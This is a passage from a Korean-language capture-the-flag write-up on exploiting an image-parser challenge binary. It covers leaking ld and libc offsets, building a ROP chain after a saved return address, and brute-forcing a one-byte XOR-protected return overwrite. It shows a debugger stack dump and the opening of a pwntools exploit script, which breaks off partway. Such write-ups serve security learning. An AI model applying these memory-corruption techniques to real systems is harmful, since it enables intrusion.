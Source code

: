 `buf주소 + 0x1068` 위치에 `_rtld_global` 이 위치해 있습니다. 이미지의 시작 오프셋을 이곳으로 설정해 오프셋을 릭할 수 있습니다. 
ld 라이브러리 상에서의 오프셋은 서버를 기준으로 `0x3a040` 에 위치해있고, libc 와 거리는 서버 기준으로 `0x22d000` 에 위치해 있습니다.
gdb 를 설치하지 않고, 주어진 도커로 환경을 구성한 뒤 `./safeimfsafter &` 명령어로 바이너리를 백그라운드로 실행 후, `/proc/(fd)/maps` 파일을 확인해 libc 와 ld 사이의 거리를 구할 수 있습니다.

`2. build rop chain`

secret 과 xor 된 리턴주소 바로 다음부터 미리 rop chain 을 작성해야합니다. 
함수 호출 흐름을 보면 `main -> process -> modify_img/parse_img` 순으로 진행되기 때문에 rop chain 을 구성하는동안 변화가 없는 `process 의 리턴주소` + 8 에 rop chain 을 작성할 것입니다.

```
→ 0x555555555b0f <process(unsigned+0> ret
   ↳  0x555555555bc8 <main+184>       jmp    0x555555555baa <main+154>
      0x555555555bca                  add    BYTE PTR [rax], al
      0x555555555bcc <_fini+0>        endbr64
      0x555555555bd0 <_fini+4>        sub    rsp, 0x8
      0x555555555bd4 <_fini+8>        add    rsp, 0x8
      0x555555555bd8 <_fini+12>       ret

gef➤  tel $rsp
0x007fffffffd388│+0x0000: 0x00555555555bc8  →  <main+184> jmp 0x555555555baa <main+154>	 ← $rsp
0x007fffffffd390│+0x0008: 0x00000000002158f0
0x007fffffffd398│+0x0010: 0x007fffffffe4b0  →  0x0000000000000001
0x007fffffffd3a0│+0x0018: 0x0000000000000000
0x007fffffffd3a8│+0x0020: 0x0000000000000000
0x007fffffffd3b0│+0x0028: 0x0000000000000000
0x007fffffffd3b8│+0x0030: 0x0000000000000000
0x007fffffffd3c0│+0x0038: 0x0000000000000000
0x007fffffffd3c8│+0x0040: 0x0000000000000000
0x007fffffffd3d0│+0x0048: 0x0000000000000000
gef➤
```

`0x007fffffffd390` 주소부터 rop chain 을 작성하면 되는데, buf 와 거리로 따지면 `buf-278` 입니다. 

`3. bypass SHIELD macro`

modify_img 함수로는 한 번에 1바이트만 수정할 수 있습니다. 위 스택 상황을 봤을 때, process 함수의 리턴 주소 하위 1바이트를 0xd8 으로 바꾼다면 `ret` 가젯이 실행되고 그 다음부터 작성해놓은 rop chain 이 안전하게 실행될 수 있습니다. 
하지만 함수 호출 과정을 봤을 때, `modify_img 으로 1바이트를 바꿈 -> secret 값과 xor됨 -> 1바이트 검사 -> 리턴` 이 순서로 진행되기 때문에, rop chain 을 작성한 다음 addr 배열의 0xd8 인덱스를 1로 설정해야 합니다. buf 와의 거리를 따졌을 때는 `buf-0x100+0xd8` 입니다. 
secret 값은 매번 바뀌고 예측할 수도 없기 때문에 하위 1바이트를 어떤 값을 덮는지 상관없이 secret 값에 의해 1바이트가 결정되므로 addr 의 인덱스만 설정해놓고 xor 되었을 때 0xd8이 될 때까지 1/256 확률로 익스플로잇 코드를 계속 실행하는 방법밖에 없습니다.  

```python
from pwn import *
context.arch = 'amd64'

def build_img(size,offset,width,height,filter_type):
    header = b"SAFEIMGPARSERRRR"
    header += p16(size)
    header += p32(offset)
    header += p32(width)
    header += p32(height)
    header += p16(filter_type)
    # data = filter_data(data,filter_type,width,height)
    return header.ljust(0x1000,b'\x00')

while True:
  try:
    ## local
    #p = process("./safeimgparser")
    #libc = p.libc

    # remote
    p = remote("localhost", 30030)
```